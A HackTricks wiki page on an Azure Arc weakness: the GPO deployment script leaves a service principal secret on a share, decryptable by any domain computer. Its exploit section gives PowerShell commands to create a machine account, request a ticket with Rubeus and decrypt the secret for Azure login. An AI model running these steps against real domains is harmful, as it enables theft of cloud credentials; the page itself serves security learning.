 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc allows for the integration of new internal servers (joined domain servers) into Azure Arc using the Group Policy Object method. To facilitate this, Microsoft provides a deployment toolkit necessary for initiating the onboarding procedure. Inside the ArcEnableServerGroupPolicy.zip file, the following scripts can be found: DeployGPO.ps1, EnableAzureArc.ps1, and AzureArcDeployment.psm1.

When executed, the DeployGPO.ps1 script performs the following actions:

1. Creates the Azure Arc Servers Onboarding GPO within the local domain.
2. Copies the EnableAzureArc.ps1 onboarding script to the designated network share created for the onboarding process, which also contains the Windows installer package.

When running this script, sys admins need to provide two main parameters: **ServicePrincipalId** and **ServicePrincipalClientSecret**. Additionally, it requires other parameters such as the domain, the FQDN of the server hosting the share, and the share name. Further details such as the tenant ID, resource group, and other necessary information must also be provided to the script.

An encrypted secret is generated in the AzureArcDeploy directory on the specified share using DPAPI-NG encryption. The encrypted secret is stored in a file named encryptedServicePrincipalSecret. Evidence of this can be found in the DeployGPO.ps1 script, where the encryption is performed by calling ProtectBase64 with $descriptor and $ServicePrincipalSecret as inputs. The descriptor consists of the Domain Computer and Domain Controller group SIDs, ensuring that the ServicePrincipalSecret can only be decrypted by the Domain Controllers and Domain Computers security groups, as noted in the script comments.

```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```

### Exploit

We have the follow conditions:

1. We have successfully penetrated the internal network.
2. We have the capability to create or assume control of a computer account within Active Directory.
3. We have discovered a network share containing the AzureArcDeploy directory.

There are several methods to obtain a machine account within an AD environment. One of the most common is exploiting the machine account quota. Another method involves compromising a machine account through vulnerable ACLs or various other misconfigurations.

```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Once a machine account is obtained, it is possible to authenticate using this account. We can either use the runas.exe command with the netonly flag or use pass-the-ticket with Rubeus.exe.

```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```

By having the TGT for our computer account stored in memory, we can use the following script to decrypt the service principal secret.

```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```

Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

At this point, we can gather the remaining information needed to connect to Azure from the ArcInfo.json file, which is stored on the same network share as the encryptedServicePrincipalSecret file. This file contains details such as: TenantId, servicePrincipalClientId, ResourceGroup, and more. With this information, we can use Azure CLI to authenticate as the compromised service principal.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
